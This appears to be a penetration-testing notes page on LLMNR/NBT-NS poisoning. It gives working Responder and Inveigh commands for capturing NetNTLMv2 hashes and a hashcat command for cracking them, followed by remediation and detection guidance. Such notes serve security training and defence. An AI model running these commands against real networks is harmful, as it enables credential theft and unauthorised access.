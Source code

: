 # LLMNR Poisoning

- A Man-in-the-Middle attack on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts
- This attack may provide low-privileged or administrative level password hashes that can be cracked offline or even cleartext credentials.
- LLMNR and NBT-NS are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
- LLMNR is a protocol that allows both IPv4 and IPv6 hosts
- If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local 
network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local
link to perform name resolution for other hosts. It uses port 5355 over UDP natively.
- If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port 137 over UDP.
- You dont need to be local admin.

### Issue

- When LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply.
- So, we can an authoritative name resolution source in the broadcast domain by replying to LLMNRand NBT-NS as if we know the answer.
- The victim will share their NetNTLM hash if the requested host requires authentication actions.
- We can then take the hash and try to crack it offline or use it in SMB relay attack or use it in different protocol like LDAP on the same host.
- LLMNR/NBNS spoofing combined with a lack of SMB signing can often lead to administrative access on hosts within a domain.
- For linux, we will use `Responder` and for windows we will use `Inveigh`

### Attack from Linux

```shell
 # /usr/share/responder/logs is the logs dir where it will store hashes etc
 sudo responder -I <interface>
 
 # When a device is set to "Auto-detect" proxy settings, it will try to find a 
 # WPAD server on the network. The -w flag in Responder starts a rogue WPAD server.
 # WPAD is a protocol that allows clients to automatically discover and configure proxy 
 # settings. When a device (e.g., a Windows machine) tries to detect a proxy server, it 
 # will send a WPAD request on the network. If Responder is running with the -w flag, it will 
 # respond to this request with a malicious wpad.dat file. This file contains instructions
 # telling the client to use the attacker’s proxy (the one running Responder) for all web traffic.
 ```

Note:

    - NetNTLMv2 hashes are very useful once cracked, but cannot be used for techniques such as pass-the-hash.
    - Pass-the-hash attack works on NTLMv1 protocol.
    - NTLMv2 includes a challenge-response mechanism where the client and the server both use a nonce (random number) 
    generated by the server as part of the authentication process.
    - The NTLMv2 response is calculated using not only the password hash but also this nonce, making the hash effectively
     "tied" to a specific challenge.
    - As a result, an NTLMv2 hash is not directly reusable across different authentication attempts like an NTLMv1 hash, 
    because the challenge is unique each time.

Cracking NTLMv2 hashes using Hashcat:

```shell
 hashcat -m 5600 ntlmv2_hash /usr/share/wordlists/rockyou.txt
 ```


### Attack from Windows

```shell
 Import-Module .\Inveigh.ps1
 # start capturing
 Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
 # view unique captured hashes
 Invoke-Inveigh GET NTLMV2UNIQUE
 # see which usernames we have collected
 Invoke-Inveigh GET NTLMV2USERNAMES
 ```

## Remediation

```shell
Mitre ATT&CK lists this technique as ID: T1557.001, Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay.
```

- Disable LLMNR and NBT-NS.
- We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
- NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can write a script for the GPO and add it to startup properties.


## Detection

- It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior.
- One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets
 and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses.
- Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs 4697 and 7045 can be monitored for.
- Finally, we can monitor the registry key HKLM\Software\Policies\Microsoft\Windows NT\DNSClient for changes to the EnableMulticast DWORD value.
 A value of 0 would mean that LLMNR is disabled.